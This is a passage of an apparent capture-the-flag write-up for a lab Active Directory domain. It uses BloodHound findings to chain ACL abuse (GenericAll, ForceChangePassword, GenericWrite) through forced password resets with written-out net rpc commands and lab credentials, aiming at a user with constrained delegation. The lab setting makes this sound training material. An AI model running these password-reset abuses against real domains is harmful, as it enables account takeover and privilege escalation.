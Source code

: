 - Navigating back to `BloodHound` for more enumeration through the user path, `TABATHA_BRITT`, We have an ACE abuse path to user `DARLA_WINTERS`



![](https://i.imgur.com/nWTXoki.png)



- Then user `DARLA_WINTERS` has constrained delegation enabled on the CIFS Service


> `CIFS` - Common Internet File System is used for file sharing that allows delegation of users to shares.



![](https://i.imgur.com/x9fOdty.png)


## Exploit


- From user `TABATHA_BRITT` we have `SHAWNA_BRAY` **GenericAll** ACE, we can go ahead and exploit this by changing the user `SHAWNA_BRAY` Password


![](https://i.imgur.com/L5TWJC7.png)



```bash
net rpc password "SHAWNA_BRAY" "newP@ssword2022" -U "THM.CORP"/"TABATHA_BRITT"%"marlboro(1985)" -S "HayStack.thm.corp"
```



- We then have `ForceChangePassword` to user `CRUZ_HALL`, we can go ahead and change this users password also



```bash
net rpc password "CRUZ_HALL" "newP@ssword2022" -U "THM.CORP"/"SHAWNA_BRAY"%"newP@ssword2022" -S "HayStack.thm.corp"
```




![](https://i.imgur.com/1IdHNrE.png)


- Then for our last user which is `DARLA_WINTERS` we have **GenericWrite** ACE from user `CRUZ_HALL`, we can go ahead and change and change the password on this user also


```bash
net rpc password "DARLA_WINTERS" "newP@ssword2022" -U "THM.CORP"/"CRUZ_HALL"%"newP@ssword2022" -S "HayStack.thm.corp"
```


